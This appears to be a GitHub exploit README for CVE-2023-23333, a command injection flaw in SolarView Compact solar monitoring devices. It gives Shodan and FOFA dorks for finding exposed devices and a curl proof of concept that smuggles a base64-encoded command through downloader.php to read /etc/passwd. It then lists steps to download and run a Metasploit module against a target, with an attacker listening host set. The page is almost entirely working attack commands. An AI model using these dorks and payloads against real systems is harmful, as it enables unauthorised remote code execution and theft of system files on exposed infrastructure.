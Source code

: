 # CVE-2023-23333

![](https://img.shields.io/static/v1?label=Product&message=SolarView%20Compact&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%3Dver%206.00&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Command%20Injection&color=red)


- Shodan dork:
```
http.html:"SolarView Compact"
```
- FOFA dork:
```
body="SolarView Compact"
```
### Curl PoC
```
echo -n 'cat /etc/passwd' | base64

Y2F0IC9ldGMvcGFzc3dkCg
```
```
curl http://target.com/downloader.php?file=;echo%20Y2F0IC9ldGMvcGFzc3dkCg==|base64%20-d|bash%00.zip | grep root:.*:0:0
```

### Metasploit-Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/SolarView_Compact/solarview_compact.rb
```
```
cp solarview_compact.rb /usr/share/metasploit-framework/modules/exploits/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
set rhosts target_ip
```
```
set lhost attacker_ip
```
```
run
```

